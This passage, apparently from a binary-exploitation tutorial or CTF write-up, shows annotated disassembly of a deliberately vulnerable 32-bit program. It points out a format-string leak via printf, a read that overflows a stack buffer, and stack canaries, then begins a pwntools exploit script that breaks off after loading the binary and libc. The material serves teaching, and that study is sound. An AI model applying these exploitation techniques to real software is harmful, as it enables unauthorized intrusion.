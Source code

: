        0x08048621 <+43>:	sub    esp,0xc
       0x08048624 <+46>:	lea    eax,[ebp-0x20c]
       0x0804862a <+52>:	push   eax
       0x0804862b <+53>:	call   0x8048450 <printf@plt>           ; the contents of buf are printed out
       0x08048630 <+58>:	add    esp,0x10
       0x08048633 <+61>:	nop
       0x08048634 <+62>:	mov    eax,DWORD PTR [ebp-0xc]          ; stack canary verifucation routine started
       0x08048637 <+65>:	xor    eax,DWORD PTR gs:0x14
       0x0804863e <+72>:	je     0x8048645 <minorLeak+79>
       0x08048640 <+74>:	call   0x8048460 <__stack_chk_fail@plt>
       0x08048645 <+79>:	leave
       0x08048646 <+80>:	ret                                     ; return to main()
    End of assembler dump.
    gef➤

----

    gef➤  disassemble totallySafeFunc
    Dump of assembler code for function totallySafeFunc:
       0x08048647 <+0>:	push   ebp
       0x08048648 <+1>:	mov    ebp,esp
       0x0804864a <+3>:	sub    esp,0x418                                ; 1048 bytes are reserved on the stack
       0x08048650 <+9>:	mov    eax,gs:0x14                              ; stack canary
       0x08048656 <+15>:	mov    DWORD PTR [ebp-0xc],eax
       0x08048659 <+18>:	xor    eax,eax
       0x0804865b <+20>:	sub    esp,0x4
       0x0804865e <+23>:	push   0x800
       0x08048663 <+28>:	lea    eax,[ebp-0x40c]
       0x08048669 <+34>:	push   eax
       0x0804866a <+35>:	push   0x0
       0x0804866c <+37>:	call   0x8048440 <read@plt>                 ; user input is requestet
       0x08048671 <+42>:	add    esp,0x10
       0x08048674 <+45>:	nop
       0x08048675 <+46>:	mov    eax,DWORD PTR [ebp-0xc]              ; stack canary verification routine
       0x08048678 <+49>:	xor    eax,DWORD PTR gs:0x14
       0x0804867f <+56>:	je     0x8048686 <totallySafeFunc+63>
       0x08048681 <+58>:	call   0x8048460 <__stack_chk_fail@plt>
       0x08048686 <+63>:	leave
       0x08048687 <+64>:	ret                                         ; return to main()
    End of assembler dump.
    gef➤

So far we can spot nothing out of the ordinary except the obvious vulnerabilities and the presence of stack canaries.
That said, let's directly jump into the exploit development!

#### Exploit

{% highlight python %}
#!/usr/bin/env python2

import argparse
from pwn import *
from pwnlib import *

context.arch ='i386'
context.os ='linux'
context.endian = 'little'
context.word_size = '32'
context.log_level = 'DEBUG'

binary = ELF('./binary/realvuln4')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')

